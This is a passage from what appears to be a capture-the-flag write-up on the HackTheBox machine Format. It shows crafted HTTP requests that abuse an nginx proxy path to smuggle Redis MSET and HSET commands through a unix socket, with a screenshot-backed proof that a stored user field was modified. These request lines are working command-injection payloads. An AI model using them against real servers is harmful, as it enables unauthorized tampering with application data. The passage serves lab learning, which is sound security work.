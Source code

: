 ```

MSET /static/unix:%2fvar%2frun%2fredis%2f/redis.sock:hacked%20%22true%22%20/anything.js HTTP 1.1
Host: app.microbucket.htb

```

That will reach the socket as:

```

MSET hacked "true" microbucket.htb/anything.js HTTP/1.0
Host: localhost

```

That will set the key `hacked` to true (and likely crash the rest of the command).

This is taking advantage of the fact that `MSET` allows for setting multiple keys in the same line.

There’s more in the post about getting RCE from this, but I wasn’t able to make that work on Format.

#### Redis Write POC

The keys I noted above were set with `HSET`, which according to the [docs](https://redis.io/commands/hset/), takes a key followed by field and value pairs. That should work similar to above, but rather than just key / value, I’ll pass field as well.

I’ll send:

```

HSET /static/unix:%2fvar%2frun%2fredis%2fredis.sock:oxdf%20%22first-name%22%20%22modified%22%20/0xdf.js HTTP/1.1
Host: microblog.htb

```

This will become:

```

HSET oxdf "first-name" "modified" HTTP/1.0
Host: localhost

```

I’ll send this, and the response is a crash:

![image-20230515160237326](/img/image-20230515160237326.png)

But, on refresh, my first name is changed!

![image-20230515160255527](/img/image-20230515160255527.png)

#### Pro Access
